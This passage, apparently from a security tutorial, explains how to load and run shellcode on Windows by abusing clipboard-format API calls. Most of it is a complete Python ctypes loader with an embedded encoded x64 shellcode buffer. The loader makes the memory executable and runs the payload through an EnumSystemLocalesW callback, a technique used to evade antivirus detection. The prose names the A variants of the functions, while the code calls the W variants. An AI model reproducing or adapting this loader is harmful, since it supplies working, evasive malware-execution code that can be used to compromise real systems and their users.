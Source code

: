 ​ This function needs to pass in three parameters. The first parameter is used to indicate the format type to be retrieved. This parameter must not specify any predefined clipboard format; the second parameter is used to indicate the buffer to receive the format name; the third parameter is used to indicate the maximum length of the string to be copied to the buffer. Note that if the name exceeds this limit, it will be truncated.

​ The idea of ​​utilization is also very clear: use the `RegisterClipboardFormatA` function to treat `shellcode` as the name of the registration format, register a new clipboard, and then use the `GetClipboardFormatNameA` function to obtain the name of the clipboard format, that is, `shellcode`, and write it to the requested memory. Here you need to note that the `\x00` character cannot appear in the `shellcode` to avoid the name of the registration format being truncated.

```python
# -*-coding:utf-8 -*-
"""
The ctypes library is a module in Python that calls the system dynamic link library functions. The ctypes library can use the C language dynamic link library and pass functions to it.
GetClipboardFormatName+RegisterClipboardFormat
"""
import ctypes

buf = b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\x96\x4d\x71\x7e\xfb"
buf += b"\x4f\x9f\x93\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x6a\x05\xf2\x9a\x0b\xa7\x5f\x93\x96"
buf += b"\x4d\x30\x2f\xba\x1f\xcd\xc2\xc0\x05\x40\xac\x9e"
buf += b"\x07\x14\xc1\xf6\x05\xfa\x2c\xe3\x07\x14\xc1\xb6"
buf += b"\x05\xfa\x0c\xab\x07\x90\x24\xdc\x07\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x71\x10\x02\xf9\x63\xbf\xd2\x57"
buf += b"\x84\x7c\x3f\xfa\x8e\x7d\x7e\xc4\x0c\x20\x36\x70"
buf += b"\x1d\xbf\x18\xd4\x71\x39\x7f\x2b\xc4\x1f\x1b\x96"
buf += b"\x4d\x71\x36\x7e\x8f\xeb\xf4\xde\x4c\xa1\x2e\x70"
buf += b"\x07\x87\xd7\x1d\x0d\x51\x37\xfa\x9f\x7c\xc5\xde"
buf += b"\xb2\xb8\x3f\x70\x7b\x17\xdb\x97\x9b\x3c\x4f\x32"
buf += b"\x07\xae\x53\x3a\x0c\xb0\xb7\xf6\x0e\x9e\x52\xae"
buf += b"\xad\x04\x8f\xb7\x4c\xd3\xb7\x9e\x08\x48\xaf\x8e"
buf += b"\x97\xd7\x1d\x0d\x55\x37\xfa\x9f\xf9\xd2\x1d"
buf += b"\x41\x39\x3a\x70\x0f\x83\xda\x97\x9d\x30\xf5\xff"
buf += b"\xc7\xd7\x92\x46\x0c\x29\x3f\xa3\x11\xc6\xc9\xd7"
buf += b"\x15\x30\x27\xba\x15\xd7\x10\x7a\x6d\x30\x2c\x04"
buf += b"\xaf\xc7\xd2\xcf\x17\x39\xf5\xe9\xa6\xc8\x6c\x69"
buf += b"\xb2\x2c\x36\x41\x4e\x9f\x93\x96\x4d\x71\x7e\xfb"
buf += b"\x07\x12\x1e\x97\x4c\x71\x7e\xba\xf5\xae\x18\xf9"
buf += b"\xca\x8e\xab\x40\xaf\x82\xb9\x9c\x0c\xcb\xd8\x6e"
buf += b"\xf2\x02\x6c\x43\x05\xf2\xba\xd3\x73\x99\xef\x9c"
buf += b"\xcd\x8a\x9e\x8e\x4a\x24\xd4\x85\x3f\x1e\x14\xfb"
buf += b"\x16\xde\x1a\x4c\xb2\xa4\x1d\x9a\x23\xfc\xbd\xf3"
buf += b"\x35\x14\x7e\xfb\x4f\x9f\x93"

# Apply for memory
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(buf)))
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(buf)), 0x40, ctypes.byref(ctypes.c_long(1)))
# Register a new clipboard format
clipboard_name = ctypes.windll.user32.RegisterClipboardFormatW(buf)
# Retrieve the name of the specified registration format from the clipboard and copy the name to the specified buffer
ctypes.windll.user32.GetClipboardFormatNameW(clipboard_name, ptr, len(buf))
# Callback function calls shellcode
ctypes.windll.kernel32.EnumSystemLocalesW(ptr, 0)
```
